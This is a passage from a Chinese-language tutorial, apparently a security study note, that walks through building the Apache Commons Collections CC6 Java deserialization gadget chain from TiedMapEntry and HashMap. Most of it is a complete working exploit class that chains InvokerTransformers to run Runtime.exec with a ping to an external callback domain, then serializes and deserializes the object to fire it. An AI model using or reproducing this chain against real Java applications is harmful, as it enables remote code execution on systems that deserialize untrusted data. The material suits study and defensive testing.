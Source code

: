运行结果如下-->

![alt text](image-48.png)

现在最好是去找一个 EntryClass，它的 readObject 方法中能调用 xxx.getValue()，但 CC6 的作者发现就在 TiedMapEntry 类中的 hashCode 就调用了 getValue()方法，而 hashCode 方法之前在 URLDNS 链中就被用到过，URLDNS 链有完美的入口类 HashMap，这下两者拼接一下即可，代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, null);
        HashMap<TiedMapEntry,Integer> entryMap = new HashMap<TiedMapEntry,Integer>();
        entryMap.put(tiedMapEntry, 1);
        serializeObject(entryMap);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```